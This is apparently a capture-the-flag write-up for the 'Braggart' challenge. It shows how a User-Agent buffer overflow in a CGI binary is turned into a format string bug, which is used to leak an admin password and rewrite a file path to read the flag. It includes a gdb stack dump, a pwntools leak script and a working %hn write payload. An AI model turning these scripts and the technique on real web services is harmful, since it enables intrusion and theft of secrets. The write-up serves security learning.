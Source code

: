 # Braggart

For this challenge, a binary and an URL were provided:

![web](./img/web.png)

```bash
$ file sec.bak
sec.bak: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=938da16dc1750d2efaaf4a3abc0e70ea1dea0020, for GNU/Linux 3.2.0, not stripped
```

Analysing the binary, we can spot some vulnerabilities and hidden features:

![main](./img/main.png)



The main function check for an "X-PASSWORD" header and compare its value to the environnement variable "AdminPass", if it's equal, it call the printSecret functions, otherwise, printMain is called.

The main function show that a debug feature can be triggered by passing the "X-DEBUG" header value to 1 when performing HTTP request.
This function prints remote IP address and User Agent information when called.

A buffer overflow can be spotted in the printDebug function:

![debug](./img/debug.png)

Indeed, the value of the User-Agent header is copied without size control. Since stack cookie is present, we cannot overwrite the return address, let's see what we can do.
The following command line is used to debug the program:

```bash
$ QUERY_STRING=TEST REQUEST_METHOD=GET HTTP_X_DEBUG=1 AdminPass=test HTTP_X_PASSWORD=notpassword CONTENT_LENGTH=40 workingDir=/home/ctf/
REMOTE_ADDR=1.1.1.1 HTTP_USER_AGENT=chromium gdb ./sec.bak ; echo
```

A breakpoint is set to the second strcpy call:
![bp](./img/bp.png)

```bash
pwndbg> x/200gx 0x7fffffffd4c0
0x7fffffffd4c0:	0x00312e312e312e31	0x0000000000000000
...
0x7fffffffd860:	0x0000000000021000	0xb21f90d4859a1100 <-- canary
0x7fffffffd870:	0x000000000000060f	0x0000000000000290
0x7fffffffd880:	0x00007ffff7df6c80	0x0000000000000280
0x7fffffffd890:	0x0000000000000029	0xffffffffffffffc0
0x7fffffffd8a0:	0x00007ffff7df6ce0	0x00007ffff7c9eb80
0x7fffffffd8b0:	0x0000000000007325	<--- format
0x7fffffffd8c0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8d0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8e0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8f0:	0x0000000000000000	0x0000000000000000
```
Some .text address, the stack cookie value AND, the format used to print out the User-Agent data are present on the stack. That means that the buffer overflow can be used to trigger a format string bug vulnerability.
Such a bug will be usefull to leak memory and overwrite some locations.

For example, the stack can be read using the leak.py script:

```python
from pwn import *
import requests
import sys

url = "https://nessus-braggart.chals.io/sec.cgi"

for i in range(int(sys.argv[1]),int(sys.argv[2])):
index = bytes(str(i),'utf-8')
header = {"User-Agent":cyclic(1008)+b"%"+index+b"$"+bytes(sys.argv[3],'utf-8'),"X-DEBUG":"1"}
r = requests.get(url, headers=header)
if "Internal Server Error" in r.text:
log.info("Fail to read offset")
continue
res = r.text.split("User Agent : </h3>")[1].split("</pre>")[0]
print(res)
```
(script has been improoved later :D)
The password is obtained by leaking environnement variables:

![leak](./img/leak.png)

Let's get the flag !

![nottheflag](./img/nottheflag.png)

... Let's analyse the printSecret function:

![secrets](./img/secrets.png)

The full path which is opened is build in two parts, first, the program get the workingDir environnement variable, then concat the word "brag" to it.

Since we control a format string bug, it is possible to overwrite "brag" with "flag" and get the flag !

To perform such an exploit, the "brag" string pointer offset is needed, let's fuzz again but withing the "printSecret" function (which call the printDebug and trig the overflow).

```
...
260 -> (null)
261 -> (null)
262 -> (null)
[*] Fail to read offset
264 -> À9°ý\x7f                                        \x05Y\x0b
266 ->
267 -> brag
268 -> /home/ctf/
269 ->
```

String "brag" is identified at offset 267. Now, the only thinkg to do is to overwrite 2 bytes "br" with "fl", and the final path will be /home/ctf/flag.

```python
from pwn import *
import requests

url = "https://nessus-braggart.chals.io/sec.cgi"

password = "xbYP3h7Ua94c" # This was added after fuzzing

header = {"User-Agent":cyclic(1008)+b"%27750x%267$hn","X-DEBUG":"1","X-PASSWORD":password} # 27750 -> '0x6c66' --> lf
r = requests.get(url, headers=header)
print(r.text)
```
```
flag{f0rmat_th3m_str1ngz}
```


